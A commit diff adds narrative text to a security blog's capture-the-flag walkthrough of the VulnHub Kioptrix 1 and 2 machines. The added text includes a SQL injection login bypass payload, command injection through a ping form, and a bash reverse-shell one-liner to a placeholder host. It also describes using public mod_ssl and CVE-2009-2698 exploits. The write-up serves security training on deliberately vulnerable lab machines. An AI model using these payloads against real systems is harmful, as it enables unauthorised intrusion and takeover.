

Before and after one commit to SrFlipFlop/srflipflop.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 1140 px. Shown: the part 222-555 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown; grey boxes are pictures that could not be loaded.

Commit message:
Add new descriptions for old post

```diff
--- a/_posts/2018-11-30-Kioptrix1and2.md
+++ b/_posts/2018-11-30-Kioptrix1and2.md
@@ -6,48 +6,76 @@
 tag: CTF
 ---
 
-Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas ut efficitur nisi. Nullam non risus a orci ultrices lacinia ac a purus. Etiam in imperdiet lectus. Interdum et malesuada fames ac ante ipsum primis in faucibus. Cras ultrices tellus quis sapien mollis, in luctus tortor tempor. Suspendisse potenti. Curabitur sit amet porta magna. Duis dignissim risus at scelerisque malesuada. Integer venenatis quis augue eget pellentesque. Phasellus iaculis sed lacus quis efficitur.
+After several posts with *HackTheBox* machines, we go back to the origins with *VulnHub*. This time, as they are relatively easy machines, we have a 2 for 1 offer and we are going to play with [Kioptrix 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) and [Kioptrix 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).
 
-### Information gathering
+### Kioptrix 1
+
+As usual, let's start enumerating the services on the remote machine using nmap. We see that many services appear, so let's launch other tools while we analyze the services manually.
 
 ![](/images/posts/Kioptrix1and2/img1.png "nmap results")
 
+One of these tools is *nikto*, which is used to analyze vulnerabilities or configuration flaws in web applications. In the results we see that it has found the Apache module **mod_ssl** which could have an outdated version with a public vulnerability.
+
 ![](/images/posts/Kioptrix1and2/img2.png "nikto results")
 
+Let's search the [Exploit Database](https://www.exploit-db.com/) to see if we find results for **mod_ssl 2.8.4**. We see that there are two exploits called *OpenFuck* that allow remote code execution using buffer overflow in **mod_ssl** versions below **2.8.7**.
+
 ![](/images/posts/Kioptrix1and2/img3.png "search mod_ssl exploits")
+
+To use the exploit we must first compile it as indicated in the comments. When we run it, we see that we must select the operating system in the remote machine. Using the information obtained with *nmap*, we are going to look for **RedHat** offset.
 
 ![](/images/posts/Kioptrix1and2/img4.png "Compile exploit")
 
 ![](/images/posts/Kioptrix1and2/img5.png "Search RedHat version")
 
+When we run the exploit, we see that we obtain a reverse shell with elevated privileges.
+
 ![](/images/posts/Kioptrix1and2/img6.png "Launch the exploit")
 
-### Information gathering
+### Kioptrix 2
+
+Like the previous machine, we will start with nmap to enumerate remote services and nikto for web applications.
 
 ![](/images/posts/Kioptrix1and2/img7.png "nmap results")
 
 ![](/images/posts/Kioptrix1and2/img8.png "nikto results")
 
+We don't see any relevant information detected by nikto, so we will analyze the web application manually. As we can see it is a login page, but trying some default credentials we can't get in.
+
 ![](/images/posts/Kioptrix1and2/img9.png "Login web page")
 
 ![](/images/posts/Kioptrix1and2/img10.png "Login attempt using common credentials")
 
+The next option is to test if any of the login fields are vulnerable to SLQ injection. We try the classic payload `' or '1'='1` in the password field to see if we can bypass it and make sure that any value is correct. **Bingo**, we have managed to access the administration panel!
+
 ![](/images/posts/Kioptrix1and2/img11.png "SQL injection in the password field")
+
+This panel only contains a functionality to ping the IP provided by the user and the result is the output of the ping command.
 
 ![](/images/posts/Kioptrix1and2/img12.png "Administratvie console")
 
 ![](/images/posts/Kioptrix1and2/img13.png "ping functionality")
 
+This functionality looks suspicious to command injection in case the user input is not correctly sanitized. We are going to use the *ping* `-c` parameter, used to specify the number of requests, to see if the behavior of the functionality is modified and the results of the command reflect the number of requests given.
+
 ![](/images/posts/Kioptrix1and2/img14.png "Executing commands")
+
+Using `;` we can chain the execution of a second command once the ping is finished. We could extract information from the machine using `cat`, but we are going to open directly a reverse shell in bash with `bash -i >& /dev/tcp/<LOCAL IP>/<LOCAL PORT> 0>&1`.
 
 ![](/images/posts/Kioptrix1and2/img15.png "Obtaining reverse shell")
 
-### Elevating privileges
+This time the machine is better configured, and we get a reverse shell with the user who has executed the web application without elevated privileges. Next we are going to start the information gathering of the machine to look for any privilege escalation path.
 
 ![](/images/posts/Kioptrix1and2/img16.png "Information gathering")
 
+Searching again the operating system version in [Exploit Database](https://www.exploit-db.com/), we found an exploit that would allow us to elevate privileges using the vulnerability **CVE-2009-2698**.
+
 ![](/images/posts/Kioptrix1and2/img17.png "Searching exploits for CentOS version")
+
+To transfer the exploit, we will use the Python **SimpleHTTPServer** module to open a web server and get the file from the victim machine with `wget`.
 
 ![](/images/posts/Kioptrix1and2/img18.png "Transfer the exploit code")
 
+Finally, we just need to compile the exploit as the developer says in the comments and run it on the machine to obtain elevated privileges.
+
 ![](/images/posts/Kioptrix1and2/img19.png "Executing the exploit")
```
